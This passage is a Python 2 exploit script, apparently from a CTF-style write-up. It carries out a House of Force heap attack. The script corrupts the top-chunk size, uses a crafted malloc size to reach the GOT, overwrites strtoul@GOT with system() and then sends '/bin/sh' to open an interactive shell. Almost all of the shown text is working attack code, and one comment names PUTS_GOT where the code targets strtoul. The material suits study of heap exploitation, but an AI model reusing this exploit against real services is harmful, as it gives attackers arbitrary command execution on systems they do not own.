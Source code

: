 f.write("g\n")
f.write("A"*(1036-0x8c)+"\xff"*4+"\n") # overwrite wilderness chunk size w/ "0xffffffff"
readuntil(f)
f.write("q\n")
readuntil(f)

# main_menu
hof_size_2 = format((STRTOUL_GOT-8-(wilderness_addr))&0xffffffff,'x')
print "[*] allocating second HOF chunk with size "+str(hex(int(hof_size_2,16)))

f.write("g\n")
readuntil(f, ":")
f.write(hof_size_2+"\n") # specify size of 2nd HOF malloc() to be `GOT_entry - 8 byte - addr of top chunk`
readuntil(f)

# main_menu
print "[*] overwriting strtoul@GOT with system()"
f.write("g\n") # 3rd HOF malloc() chunk overwrites PUTS_GOT
readuntil(f, ":")
f.write("5\n") # size of last chunk. 4 byte addr + 1 byte newline char
f.write(p(system_addr)+"\n")
readuntil(f)

# call strtoul() and push '/bin/sh' onto stack
f.write("g\n")
readuntil(f, ":")
f.write("/bin/sh\n")

print ""
print "[+] OPENING SHELL..."

interact()

f.close()
s.close()
{% endhighlight %}
